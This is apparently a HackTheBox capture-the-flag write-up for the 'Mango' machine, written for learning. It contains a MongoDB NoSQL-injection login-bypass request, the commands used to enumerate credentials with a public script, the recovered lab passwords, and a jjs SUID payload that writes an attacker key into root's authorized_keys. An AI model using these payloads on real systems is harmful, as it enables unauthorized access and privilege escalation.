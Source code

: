 # Mango
Box IP **10.10.10.162**


### Nmap scan

```bash
$ nmap -sC -sV -T5 -v mango.htb
```

### Services
<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/1.png" alt="1" />
</p>

Access to webserver on port 80 is forbidden, and connection of port 443 reveals an invalid certificate

By investigating the certificate we find some interesting info

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/2.png" alt="1" />
</p>

Jumping to this address we found a login page


### MongoDB

We exploit MongoDB [regex](https://docs.mongodb.com/manual/reference/operator/query/regex/) to enumerate **users** and **password**.

If the regex matches, the server replies with status **302**, otherwise with **200**
```
POST / HTTP/1.1
...
username[$regex]=^admi.*&password[$ne]=1&login=login
```

<p align="center">
  <img src="https://github.com/lorenzoinvidia/HTB-CheatSheets/blob/master/src/web/mongo.png" alt="HTB" />
</p>

This can speedup and do [automatically](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

```bash
$ python3 nosqli-user-pass-enum.py -u https://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep username
$ python3 nosqli-user-pass-enum.py -u http://staging-order.mango.htb -m POST -up username -pp password -op login:login -ep password
```

And we get **mango:h3mXK8RhU~f{]f5H** and **admin:t9KcS3>!0B#2**

We authenticate as **mango** in ssh and by switching user to **admin** we get the user flag


### Privilege Escalation

By searching for suid binaries
```
$ find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

we find a jss binary /usr/lib/jvm/java-11-openjdk-amd64/bin/**jjs**

As [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) suggests we basically can

write our ssh PK in the root directory
```
$ echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/root/.ssh/authorized_keys");
fw.write("YOUR PUBLIC KEY");
fw.close();' | jjs
```

open a [reverse shell](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Shells#spawn-reverse-shell)

or directly print the root flag

<p align="center">
  <img src="https://github.com/lorenzoinvidia/CTFs-Writeups/blob/master/HackTheBox/b2r/Mango/src/3.png" alt="1" />
</p>



The root flag is located in **/root**


If you liked this write-up, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
